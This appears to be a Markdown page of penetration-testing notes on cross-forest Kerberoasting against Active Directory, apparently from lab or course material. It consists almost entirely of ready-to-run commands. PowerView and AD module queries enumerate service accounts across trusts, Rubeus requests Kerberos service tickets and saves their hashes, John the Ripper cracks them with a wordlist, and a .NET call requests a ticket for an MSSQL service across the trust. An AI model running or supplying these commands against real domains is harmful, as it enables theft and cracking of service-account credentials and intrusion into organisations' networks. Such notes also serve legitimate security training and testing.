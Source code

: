 # Cross Domain Attacks [ Kerberoast ]
##  Methodology/Steps
> 1. First find all the SPN accounts
> 2. Request a TGS for the user who has forest trust
> 3. Crack the ticket using JTR
> 4. Using PowerShell request a TGS across trust

## PowerShell
### 1. Find user accounts used as Service account
> It is possible to execute Kerberoast across Forest trusts
```powershell
# Powerview
Get-NetUser -SPN
Get-NetUser -SPN -Verbose | select displayname,memberof
Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'} | %{Get-DomainUser -SPN -Domain $_.TargetName}

# AD Module
Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalName -Server $_.Name}
```

## Binaries
### 2. Request a TGS
```powershell
C:\AD\Tools\Rubeus.exe kerberoast /user:storagesvc /simple /domain:eu.local /outfile:euhashes.txt
```

### 3. Check for the TGS
```powershell
klist
```

### 4. Crack the ticket using JTR
```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

## PowerShell
### 5. Request TGS across trust
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList MSSQLSvc/eu-file.eu.local@eu.local
```
